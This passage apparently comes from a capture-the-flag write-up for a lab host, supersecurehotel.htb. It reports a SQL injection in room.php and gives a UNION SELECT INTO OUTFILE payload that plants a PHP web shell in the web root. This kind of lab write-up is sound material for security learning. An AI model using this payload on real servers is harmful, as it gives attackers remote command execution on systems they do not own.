 ![Untitled](uploads/Untitled%201.png)

The url [http://supersecurehotel.htb/room.php?cod=1](http://supersecurehotel.htb/room.php?cod=1) contains sql injection. I first tried to fetch some data. But there was no important data. So, I tried to upload file through sql injection and It was successful with the following

```
http://supersecurehotel.htb/room.php?cod=-1 UNION SELECT 1,2,3,4,"<?php system($_GET['cmd']); ?>",6,7 into outfile "/var/www/html/test1.php"-- -
```
